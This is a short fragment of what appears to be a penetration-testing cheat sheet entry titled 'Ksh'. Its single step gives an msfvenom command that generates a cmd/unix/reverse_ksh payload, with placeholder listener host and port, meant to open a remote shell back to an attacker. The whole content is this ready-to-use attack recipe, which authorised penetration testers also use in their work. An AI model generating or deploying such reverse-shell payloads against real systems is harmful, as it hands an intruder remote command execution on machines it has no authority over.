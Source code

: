 # Ksh

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_ksh lhost=<IP> lport=<PORT>
```